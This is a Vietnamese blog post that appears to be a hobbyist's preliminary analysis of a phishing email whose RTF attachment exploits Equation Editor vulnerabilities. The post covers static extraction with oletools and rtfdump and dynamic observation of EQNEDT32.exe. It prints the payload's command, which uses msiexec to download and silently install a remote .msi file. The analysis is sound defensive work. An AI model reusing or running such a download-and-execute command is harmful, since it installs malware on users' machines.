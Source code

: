 ```yaml
---
title: "Phân tích sơ bộ một email mã độc"
author: "F4c3l3ss_"
date: 2020-04-29
tags: ["malware","Research"]
categories: [Research, Malware]
---
```


Ngày đẹp trời nắng chói chang khắp Sài Gòn vừa nhộn nhịp trở lại sau 2 tuần tự cách ly, đang nhâm nhi 1 ly the coffee house và thưởng thức 1 quyển sách thì mình nhận được mẫu email mã độc forward từ một người bạn. Theo thói quen mình liền mở lên phân nó thử xem sao.
![IMG](/assets/img/blog/0_coffee_house.jpg)

## Phân tích tĩnh

Sau khi tải file .EML, vì an toàn nên thay vì dùng những phần mềm chuyên đọc và mở mail như Outlook, Mail,... nên mình dùng những phần mềm đọc văn bản như Notepad++ hay sublime text mở file và nắm nội dung sơ bộ của email này. 

![IMG](/assets/img/blog/1_static_notepad.jpg)

Loại bỏ nội dung của email, ta chú rằng có một tệp tin là "RFQ NEW ORDER.doc" đính kèm.
Để chắc rằng file đính kèm có phải là 1 file .doc hay không hay đó là 1 file exe, mình tiến hành copy chuỗi đầu tiên trong đoạn base64 để có được "Magic bytes" của file đính kèm từ đó xác nhận đây là file gì.

![IMG](/assets/img/blog/3_decode_base64.jpg)

![IMG](/assets/img/blog/4_magic_bytes.jpg)

"Magic bytes" cho chúng ta biết đó là file RTF(Rich Text Format) một dạng file văn bản phát triển bởi Microsoft và có thể đọc bởi bất kỳ các trình soạn thảo văn bản. Nhưng mối nguy hiểm của định dạng file RTF là nó cho phép một tập tin khác nhúng vào chính nó và sau đó thực thi.
Sau khi xác nhận đó là file RTF, mình tiến hành xuất file đính kèm bằng “mpack” trên Ubuntu.

![IMG](/assets/img/blog/5_extract.jpg)

Sử dụng bộ công cụ Ole tools để phân tích tập tin RTF kính đèm.

![IMG](/assets/img/blog/6_ole.jpg)

Ta thấy rằng rtfobj phát hiện ra 1 file nhúng bên trong file RTF, và có thể liên quan tới CVE-2017-1182 hoặc CVE-2018-0802.
Để xác định rõ thêm các file nhúng bên trong file RTF, ta sử dụng rtfdump
 

![IMG](/assets/img/blog/7_rtfdump.jpg)

Chúng ta tiến hành dump các file này ra, để ý  thì MD5 của obj thứ 171 và 172 là giống nhau vậy 2 file này là giống nhau nên chỉ cần dump 1 file để phân tích.
 

![IMG](/assets/img/blog/8_dumpfiles.jpg)

![IMG](/assets/img/blog/9_command.jpg)

Như hình trên ta có thể thấy khi mở mẫu, thì sẽ thực thi một command đó là:

`Cmd.exe & /C CD C: & msiexec.exe /I https://www.soygorrion.com.ar/ii/solstraalehi.msi/quiet`

Câu lệnh này tương ứng với windows sẽ cái đặt file solstraalehi.msi sau khi download và chạy ẩn tiến trình, điều này sẽ làm user không biết được rằng máy mình đang bị cài đặt một chương trình lạ vào máy. Tuy nhiên cũng không loại trừ khả năng đây là attacker cố ý làm rõ.
## Phân tích động
Tiến hành phân tích động, sau khi mở file Microsoft Word sẽ gọi tiến trình EQNEDT32.exe để xử lý các OLE của file RTF, ta thấy rằng tiến trình EQNEDT32.exe sẽ thực thi câu lệnh và cài đặt gói 

 

![IMG](/assets/img/blog/10_process.jpg)

![IMG](/assets/img/blog/11_process.jpg)

![IMG](/assets/img/blog/12_properties.jpg)

Vậy sau khi thực thi, tiến trình sẽ thực hiện cài đặt gói đã được định sẵn.
Tuy nhiên lúc thực hiện bài phân tích, domain này đã gỡ bỏ file .msi của mã độc, từ đó không thể tải về file này để phân tích các bước tiếp theo mà mã độc sẽ thực hiện.

Happy holidays!

